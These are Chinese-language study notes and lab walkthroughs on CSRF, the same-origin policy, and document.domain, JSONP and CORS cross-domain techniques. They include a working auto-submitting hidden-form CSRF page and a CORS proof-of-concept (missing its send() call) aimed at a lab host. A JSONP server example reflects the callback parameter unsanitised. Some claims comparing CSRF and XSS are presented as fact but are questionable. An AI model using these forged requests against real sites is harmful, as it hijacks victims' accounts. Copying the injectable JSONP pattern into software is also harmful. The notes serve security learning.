# 知识点

> CSRF漏洞

- 概念:跨站请求伪造(Cross-site request forgery，CSRF)是一种攻击，它强制终端用户在当前对其进行身份验证后的Web应用程序上`执行非本意的操作`。CSRF攻击的着重点在`伪造更改状态的请求`，而`不是盗取数据`，因为攻击者无法查看对伪造请求的响应
- 借助社工的一些帮助(例如通过电子邮件或聊天发送链接)，攻击者可以`诱骗用户执行攻击者选择的操作`。如果受害者是`普通用户`，则成功的CSRF攻击可以`强制用户执行状态更改`的请求，例如转移资金，更改其电子邮件地址等。如果受害者是`管理帐户`CSRF可能会`危及整个Web应用程序`
- 原理:CSRF是一种`欺骗`受害者提交恶意请求的攻击,它`继承了受害者的身份和权限`,代表受害者执行`非本意`,`恶意`的操作
- 关键点:对于大多数站点，浏览器请求`自动发送`与站点关联的所有凭据，例如用户的会话cookie，IP地址，Windows域凭据等.因此，如果用户当前已对该站点进行了身份验证，则该站点将`无法区分`受害者发送的伪造请求和受害者发送的合法请求
- 条件:
  - 登录`受信任网站A`,并在`本地生成Cookie`
  - 在`不登出A`的情况下,`访问危险网站B`

> CSRF的危害和防御

- CSRF漏洞`危害`
  - 攻击者盗用了用户的身份后，以用户的名义发送恶意请求;
  - CSRF的恶意操作:以用户名义发送邮件，发消息，盗取账号，购买商品，虚拟货币转账等等，
  - 造成的问题包括:个人隐私泄露以及财产安全问题。
- CSRF漏洞`防御`
  - 验证Referer字段----如果Referer是`其他网站`的话，就有可能是CSRF攻击，则拒绝该请求.。
  - 添加Token验证----可以在HTTP请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个token，如果请求中`没有token`或者`token内容不正确`，则认为可能是CSRF攻击而拒绝该请求。
  - 二次验证----在转账等`关键操作之前`提供当前`用户的密码`或者`验证码`
  - 用户养成良好的习惯----不要随意点击链接和图片、及时退出长时间不使用的已登录账户、安装合适的安全防护软件
    .

> CSRF和XSS的区别

- 从`原理`的角度
  - XSS是将`恶意的代码插入到html页面`中，当用户浏览页面时，插入的html代码会被执行，从而达到最终目的。
  - CSRF是一种`欺骗受害者`提交恶意请求的攻击。代表受害者执行`非本意、恶意`的操作
- 其他角度:
  - 1.CSRF比XSS漏洞危害更高，相对XSS而言较难防御。
  - 2.CSRF可以做到的事情，XSS都可以做到。
  - 3.XSS有局限性，而CSRF没有局限性:
  - 4.XSS针对`客户端`，而CSRF针对`服务端`
  - 5.XSS是`利用合法用户`获取其信息，而CSRF是`伪造成合法用户`发起请求。

> 同源策略

- 定义:如果两个页面的`协议`，`端口`(如果有指定)和`域名`都`相同`，则两个页面`具有相同的源`
- 概况:
  - 同源策略是浏览器的一个`安全功能`，`不同源`的客户端脚本在`没有明确授权`的情况下，不能读写对方资源。
  - 同源策略限制了从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。
  - 这是一个用于`隔离潜在恶意文件`的重要安全机制。
- 受约束对象:`DOM`,`Cookie`,`第三方插件`以及`XMLHttpRequest`都受到`同源策略`的约束
- 不受约束的对象:
  - 页面中的`链接`，`重定向`以及`表单`提交是不会受到同源策略限制的。
  - 跨域资源的引入是可以的。但是js不能读写加载的内容。如嵌入到页面中的<script>，，<link>，<iframe>等带`src属性`的标签。
- 非同源收到的限制:
  - Cookie、LocalStorage 和 IndexDB 无法读取。
  - DOM 无法获得。
  - AJAX 请求不能发送。

> 跨域

- 概念:受前面所讲的浏览器同源策略的影响，不是同源的脚本`不能操作其他源`下面的对象。想要`操作另一个源下的对象`是就需要`跨域`
  简单的说，我们把`不同域`之间`请求数据`的操作，称为跨域

> document.domain跨域

- `方法`:
  - document.domain跨域(两个页面`一级域名相同`,只是`二级域名不同`,可用该设置共享Cookie)
    - 只能在`父域名`与`子域名`之间使用
    - `存在安全性问题`,当一个站点被攻击以后,另一个站点会引起安全漏洞
    - 只适用于`Cookie`和`iframe`窗口

> JSONP跨域

- 说明:利用`<script>的src不受同源策略约束`实现跨域获取数据
- `Jsonp(SON with Padding)`是json 的一种"使用模式"，可以让网页从别的域名(网站)那获取资料，即跨域读取数据。
- 存在问题:
  - 存在`安全性`问题需要网站双方商议基础token的身份验证
  - 只能是`GET`，不能POST
  - 可能被注入恶意代码，篡改页面内容，可以采用字符串过滤来规避此问题

> CORS跨域

- CORS全称为`跨域资源共享`
- 说明:CORS是一个W3C标准,允许浏览器向跨源服务器发送`XMLHttpRequest`请求
- 利用`javascript`无法控制`http头`的特点,通过目标返回的`http头授权`是否允许跨域访问
- 检测方式:
  - curl https://www.baidu.com -H "Origin:https://qq.com" -I ,检查返回包的`Access-Control-Allow-Origin`字段是否为`https://qq.com
  - bp发送请求包,查看返回包的tips值,当它为null,代表信任任何域


> CORS漏洞利用

- 用于`csrf`跨站请求伪造,发送钓鱼链接,读取用户敏感数据

- 用户点击`buttton`弹出响应信息

- ```html
  <!DOCTYPE html>
  <html>
  <body>
  <center>
      <h2>CORS POC Exploit</h2>
      <h3>Extract SID</h3>
      <div id="demo">
          <button type="button" onclick="cors()">Exploit</button>
          <p>Response will be shown here:</p>
          <pre id="response"></pre>
      </div>
      <script>
          function cors() {
              var xhttp = new XMLHttpRequest();
              xhttp.onreadystatechange = function() {
                  if (this.readyState == 4 && this.status == 200) {
                     // 输出响应内容
                      document.getElementById("response").textContent = this.responseText;
                  }
              };
              // 访问
              xhttp.open("GET", "http://127.0.0.1/csrf.html", true);
              xhttp.withCredentials = true; 
          }
      </script>
  </center>
  </body>
  </html>
  ```

  

------


# 实战

> CSRF(get)



- 进入登录页面修改信息,然后`抓包拦截`



- 直接修改放行http://192.168.100.40:49615//csrfget/csrf_get_edit.php?sex=sunhua&phonenum=1433223&add=666+76&email=sunhua%40pen.com&submit=submit

- 确保`处于登录状态`,然后访问url
- 

- 可以发现修改`成功`!

------

> CSRF(post)

- 提前写好`csrf.html`

- ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <title>csrf</title>
      <script>
          window.onload=function () {
              document.getElementById("submit").click()
          }
      </script>
  
  </head>
  <body>
  <form method="post" action="http://192.168.100.40:49615/csrfpost/csrf_post_edit.php">
      <input type="hidden" name="sex" value="boy111"/>
      <input type="hidden" name="phonenum" value="1234567890"/>
      <input type="hidden" name="add" value="hack111"/>
      <input type="hidden" name="email" value="hack@hack.com"/>
      <input type="hidden" name="submit" value="submit"/>
      <input type="submit" id="submit" value="不是诈骗"/>
  </form>
  </body>
  </html>
  ```

- 直接访问http://127.0.0.1/csrf.html,可以发现被成功修改

- 

------

> CSRF(token)

- 下载插件
- 
- 发送到重放器,修改数据,发送请求





- 可以发现修改成功!

------

> document.domain跨域

- 创建如图树结构的文件
- 

```html
<!sub1.html>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Subdomain 1</title>
    <script>
        // 设置 document.domain
        document.domain = 'localhost';  // 使用 localhost

        function sendMessage() {
            const otherWindow = window.open('http://localhost:8002/sub2.html'); // 使用实际的 URL
            otherWindow.postMessage('Hello from Subdomain 1!', 'http://localhost:8002');
        }

        window.addEventListener('message', (event) => {
            if (event.origin === 'http://localhost:8002') {
                alert('Received message: ' + event.data);
            }
        });
    </script>
</head>
<body>
    <h1>sub1</h1>
    <button onclick="sendMessage()">发送到sub2</button>
</body>
</html>

```

```html
<!sub2.html>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Subdomain 2</title>
    <script>
        // 设置 document.domain
        document.domain = 'localhost';  // 使用 localhost

        window.addEventListener('message', (event) => {
            if (event.origin === 'http://localhost:8001') {
                alert('接收信息: ' + event.data);
            }
        });

        function sendMessage() {
            const otherWindow = window.open('http://localhost:8001/sub1.html'); // 使用实际的 URL
            otherWindow.postMessage('来自sub2!', 'http://localhost:8001');
        }
    </script>
</head>
<body>
    <h1>sub2</h1>
    <button onclick="sendMessage()">发送到sum1</button>
</body>
</html>
```

- 在两个`html`目录下分别开启`8001`和`8002`端口
- 



- 访问http://127.0.0.1:8001/sub1.html





------

> JSONP跨域

- 我使用的是`node.js`

- 

  

```js
//server.js

const express = require('express');
const app = express();

app.get('/api/data', (req, res) => {
  const callback = req.query.callback; // 获取回调函数名称
  const data = { message: '这是jsonp实现的跨域' };
  res.type('application/javascript'); // 设置响应类型
  res.send(`${callback}(${JSON.stringify(data)})`); // 返回JSONP格式
});

app.listen(3000, () => {
  console.log('请访问:http://localhost:3000/api/data?callback=handleData');
});
```

```html
<!index.html>

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>JSONP实现跨域</title>
  <script>
    function handleResponse(data) {
      console.log(data); // 处理返回的数据
      document.body.innerHTML += `<p>${data.message}</p>`;
    }

    function fetchData() {
      const script = document.createElement('script');
      script.src = 'http://localhost:3000/api/data?callback=handleResponse';
      document.body.appendChild(script); // 动态插入script标签
    }
  </script>
</head>
<body onload="fetchData()">
  <h1>JSONP示例</h1>
</body>
</html>

```

- 运行`server.js`,访问http://localhost:3000/api/data?callback=handleData



------

> CORS跨域

- 跟`jsonp`差不多

- ```js
  //server1.js
  
  const express = require('express');
  const cors = require('cors');
  
  const app = express();
  const PORT = 8001;
  
  // 启用 CORS
  app.use(cors());
  
  
  app.get('/api/data', (req, res) => {
      res.json({ message: '你好 CORS!' });
  });
  
  // 启动服务器
  app.listen(PORT, () => {
      console.log(`Server running on http://localhost:${PORT}`);
  });
  ```

  ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <title>CORS Example</title>
  </head>
  <body>
      <h1>CORS 示例</h1>
      <button id="fetchButton">获取数据</button>
      <pre id="output"></pre>
  
      <script>
          document.getElementById('fetchButton').addEventListener('click', () => {
              fetch('http://localhost:8001/api/data', {
                  method: 'GET',
                  headers: {
                      'Content-Type': 'application/json'
                  }
              })
              .then(response => {
                  return response.json();
              })
              .then(data => {
                  document.getElementById('output').textContent = JSON.stringify(data, null, 2);
              })
          });
      </script>
  </body>
  </html>
  ```

  

